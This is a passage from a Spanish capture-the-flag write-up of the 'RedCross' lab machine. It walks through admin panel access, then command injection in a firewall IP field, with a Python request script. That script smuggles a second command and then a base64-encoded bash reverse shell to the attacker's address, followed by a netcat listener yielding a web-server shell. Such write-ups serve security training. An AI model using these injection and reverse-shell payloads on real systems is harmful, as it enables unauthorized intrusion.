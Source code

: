 cerrar sesion y tuve que secuestrarlas otra vez).  
![redcross4](https://user-images.githubusercontent.com/96772264/202895004-f9bdb6e3-51ab-45e9-af12-6252789c580c.PNG)

En la cookie hay un campo que ponía "DOMAIN":"admin", y en los mensajes hablan de un panel de asministración, por lo que debería existir un
admin.redcross.htb. Si ponemos este subdominio en **/etc/hosts** nos resuelve a esta página.  
![redcross6](https://user-images.githubusercontent.com/96772264/202895018-2fb053c9-86b9-40c3-a7b9-2f906b079493.PNG)
![redcross7](https://user-images.githubusercontent.com/96772264/202895022-bb78c141-5762-4400-8058-fe290cda6017.PNG)

La seccion **adduser** si le pongo "cucuxii" -> cucuxii : 4QSjFXtt, y hago un ssh con este usaurio nos da un shell muy limitada.  
Podemos acceder a muy pocos archivos, entre ellos **/home/public/src/iptctl.c** Un script en c, como no sabemos que hace nos lo copiamos en 
nuestro sistema.

En network acces hay una sección llamada "Allow IP Adress", que sirve para abrir el firewall. Pongo la mía (10.10.14.12)

Si volvemos a hacer un escaneo de puertos, vemos que están abiertos también los 21,1025(NFS),5432(postgresSQL):
Cuando le das a **allow an ip** hay una peticion a ```/POST admin.redcross.htb/pages/actions.php   data -> ip=10.10.14.12&action=Allow+IP```  

----------------------------------
# Part 4: Inyeccion de comandos al sistema

Si seguimos con el tema del firewall, podriamos intentar un SO command inyection (ya que probablmente esta ip se le pase al comando iptables o 
cualquier otro, al poner ";" se le concatenaría un segundo comando al sistema)
```python3
sess = requests.session()
url2 = "https://admin.redcross.htb/pages/actions.php"
data = {'ip':'10.10.14.12; ping -c 1 10.10.14.12', 'action':'deny'}
cookie = {"PHPSESSID":"p62nigpusguiejj25rfaf1sq04"}
req2 = sess.post(url2, cookies=cookie, data=data, verify=False)
print(req2.text)
```
```console
└─$ sudo tcpdump -i tun0 icmp -n  
└─$ python3 red.py | html2text 
DEBUG: All checks passed... Executing iptables Network access restricted to
10.10.14.12 PING 10.10.14.12 (10.10.14.12) 56(84) bytes of data. 64 bytes from
10.10.14.12: icmp_seq=1 ttl=63 time=38.7 ms --- 10.10.14.12 ping statistics --
- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/
mdev = 38.713/38.713/38.713/0.000 ms rtt min/avg/max/mdev = 38.713/38.713/
38.713/0.000 ms

└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'" | base64 -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK 
# data = {'ip':'10.10.14.12; echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK | base64 -d | bash', 'action':'deny'}

└─$ sudo nc -nlvp 443
www-data@redcross:/var/www/html/admin/pages$
```

